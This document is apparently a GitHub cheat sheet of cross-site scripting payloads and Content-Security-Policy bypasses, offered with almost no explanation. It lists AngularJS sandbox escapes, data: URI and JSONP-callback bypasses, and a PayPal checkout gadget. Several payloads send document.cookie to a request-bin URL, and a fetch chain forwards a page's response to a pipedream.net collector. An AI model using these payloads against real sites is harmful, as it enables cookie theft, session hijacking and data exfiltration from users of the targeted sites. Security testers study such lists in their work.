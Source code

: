 ### AngularJS xss 
```
Content-Security-Policy: default-src 'self' script-src 'self' cdnjs.cloudflare.com;
```

```html
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([1],alert)'></div>

<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([location.replace("url"+document.cookie)],console.log)'></div>
```


### CSP Option <=> Bypass 
```html
Content-Security-Policy: 
default-src 'self' data: *; connect-src 'self'; script-src  'self' ;
report-uri /_csp; upgrade-insecure-requests

<iframe srcdoc='<script src="data:text/javascript,alert(1)"></script>'></iframe>
```
```html
Content-Security-Policy: script-src https://google.com 'unsafe-eval' data: http://*; 
child-src 'none'; 
report-uri /Report-parsing-url;

<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
```html
Content-Security-Policy: script-src https://*.google.com;

<script+src="https://accounts.google.com/o/oauth2/revoke?callback=(location.href='requestbin/?flag='+bdocument.cookie);"></script>
```
```html
<!-- Paypal CSP Bypass -->
<script type="application/x-component" data-component=paypal-checkout>
  alert(document.domain)
</script>
<script src="//www.paypalobjects.com/api/checkout.4.0.75.js">
</script>
```

---
## <span style="color:#21C587"></span> Javascript Payload<br>

```javascript
fetch('https://pocas.kr', {
  method: 'POST',
  headers: {'headerName':'headerValue'}
}).then(x=>x.text()).then(x=>fetch("https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f="+x));
```
```javascript
fetch('https://pocas.kr', {
  method: 'POST',
  headers: {'headerName':'headerValue'}
}).then(function(x){return x.text();}).then(function(xx){fetch("https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f="+xx)});
```
```javascript
x = new XMLHttpRequest();
```